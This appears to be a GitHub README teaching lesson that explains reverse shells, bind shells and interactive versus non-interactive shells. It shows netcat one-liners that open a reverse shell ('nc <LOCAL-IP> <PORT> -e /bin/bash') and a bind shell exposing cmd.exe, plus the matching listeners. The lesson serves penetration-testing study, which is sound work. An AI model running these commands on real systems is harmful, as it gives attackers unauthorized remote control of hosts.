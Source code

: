 <h1>$${\color{red}Types} \space {\color{Goldenrod}of } \space {\color{blue}Shell}$$</h1>

At a high level, we are interested in two kinds of shell when it comes to exploiting a target: Reverse shells, and bind shells.


1. ***Reverse shells*** are when the target is forced to execute code that connects back to your computer.
> Reverse shells are a good way to ***bypass firewall rules*** that may prevent you from connecting to arbitrary ports on the target; however, the drawback is that, when receiving a shell from a machine across the internet, you would need to configure your own network to accept the shell.

2. ***Bind shells*** are when the code executed on the target is used to start a listener attached to a shell directly on the target.
> This would then be opened up to the internet, meaning you can connect to the port that the code has opened and obtain remote code execution that way. This has the advantage of not requiring any configuration on your own network, but may be ***prevented by firewalls protecting*** the target.

As a general rule, reverse shells are easier to execute and debug, however, we will cover both examples below. Don't worry too much about the syntax here: we will be looking at it in upcoming tasks. Instead notice the difference between reverse and bind shells in the following simulations.

************




<h3 align="center">Reverse Shell example:</h3>


Let's start with the more common reverse shell.

Picture the image on the left as being your own computer, and the image on the right as being the target.

On the attacking machine:

```sudo nc -lvnp 443``` <kbd>Your Machine</kbd>

On the target:

```nc <LOCAL-IP> <PORT> -e /bin/bash``` <kbd>Target Machine</kbd>

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/4c95ad4d-6a99-43dd-9bda-6fd86636a5a2">
</p>

> Notice that after running the command on the right, the listener receives a connection. When the whoami command is run, we see that we are executing commands as the target user. The important thing here is that we are listening on our own attacking machine, and sending a connection from the target.

*************



<h3 align="center">Bind Shell example:</h3>

Bind shells are less common, but still very useful.

Once again, take a look at the following image. Again, on the left we have the attacker's computer, on the right we have a simulated target. Just to shake things up a little, we'll use a Windows target this time. First, we start a listener on the target -- this time we're also telling it to execute cmd.exe. Then, with the listener up and running, we connect from our own machine to the newly opened port.

On the target:

```nc -lvnp <port> -e "cmd.exe"``` <kbd>Target Machine</kbd>

On the attacking machine:

```nc MACHINE_IP <port>``` <kbd>Your Machine</kbd>

<p align="center">
<img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/094522dc-1d3d-4a06-9710-f06d5498b8b1">
</p>

> As you can see, this once again gives us code execution on the remote machine. Note that this is not specific to Windows.

> The important thing to understand here is that we are listening on the target, then connecting to it with our own machine.

*******

<br>

> The final concept which is relevant in this task is that of interactivity. Shells can be either ***interactive*** or ***non-interactive***.

> [!IMPORTANT]
> - ***Interactive***: If you've used Powershell, Bash, Zsh, sh, or any other standard CLI environment then you will be used to interactive shells. These allow you to interact with programs after executing them. For example, take the ***SSH login prompt***:
> <p align="center"><img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/4f9645b1-4e12-4076-b119-42ace77b59f2"></p>
> Here you can see that it's asking interactively that the user type either yes or no in order to continue the connection. This is an interactive program, which requires an interactive shell in order to run.

> [!IMPORTANT]
> * ***Non-Interactive*** shells don't give you that luxury. In a non-interactive shell you are limited to using programs which do not require user interaction in order to run properly. Unfortunately, the majority of simple reverse and bind shells are non-interactive, which can make further exploitation trickier. Let's see what happens when we try to run SSH in a non-interactive shell:
> <p align="center"><img src="https://github.com/4bo4yman/Privilege-Escalation/assets/156849852/3d74caea-2100-4efb-8cfd-3853d691050f"></p>
> that the whoami command (which is non-interactive) executes perfectly, but the ssh command (which is interactive) gives us no output at all. 

